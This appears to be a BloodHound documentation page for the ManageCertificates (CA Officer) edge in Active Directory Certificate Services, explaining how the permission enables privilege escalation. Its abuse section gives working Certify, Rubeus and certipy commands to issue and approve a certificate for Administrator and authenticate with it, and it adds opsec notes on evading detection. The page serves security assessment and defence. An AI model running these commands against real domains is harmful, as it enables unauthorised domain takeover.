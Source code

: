 ```yaml
---
title: ManageCertificates
description: The principal has the "Manage Certificates", also known as "CA Officer", permission on the Enterprise CA. 
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This permission allows the principal to approve certificate requests that require manager approval and to modify certain properties (e.g., adding extensions to pending certificates). It does not by itself guarantee a privilege escalation but often removes a final barrier (manager approval) in ADCS abuse paths.

## Abuse Info

An attacker can identify ADCS escalation opportunities where manager approval on a template prevents direct abuse, but leverage the Certificate Manager role to approve the pending request. Alternatively, the role can be abused to add an extension to pending certificates (e.g., to insert a group-linked issuance policy in environments using Authentication Mechanism Assurance (AMA)). See [Certify wiki - Escalation Techniques - ManageCertificates](https://github.com/GhostPack/Certify/wiki/4-%E2%80%90-Escalation-Techniques#managecertificates) for details.

### Windows

Request a certificate that requires manager approval (example ESC1 scenario):
```cmd
Certify.exe request --ca ca01.corp.local\CORP-CA01-CA --template CustomUser --upn Administrator --sid S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-500
```
Note the printed private key and request ID. Approve the certificate:
```cmd
Certify.exe manage-ca --ca ca01.corp.local\CORP-CA01-CA --issue-id 1337
```
Download the issued certificate with the embedded private key (Base64 PFX):
```cmd
Certify.exe request-download --ca ca01.corp.local\CORP-CA01-CA --id 1337 --private-key <Base64PrivateKey>
```
Authenticate using the certificate (Rubeus example):
```cmd
Rubeus.exe asktgt /user:Administrator /certificate:<Base64PFX> /ptt
```

### Linux

Approve a pending request:
```bash
certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password 'Passw0rd'
```
Retrieve the issued certificate:
```bash
certipy req -username john@corp.local -password 'Passw0rd' -ca corp-DC-CA -target ca.corp.local -retrieve 785
```

## Opsec Considerations

Approving requests generates issuance events and stores issued certificates on the CA host. Repeated approvals or unusual patterns (e.g., high-value templates) may be monitored. Added extensions or policy changes may be auditable depending on CA logging configuration.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [T1649: Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)

### Abuse and Opsec references

* [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [Certify wiki - Escalation Techniques - ManageCertificates](https://github.com/GhostPack/Certify/wiki/4-%E2%80%90-Escalation-Techniques#managecertificates)
* [ESC7: Dangerous Permissions on CA (Certipy wiki)](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc7-dangerous-permissions-on-ca)


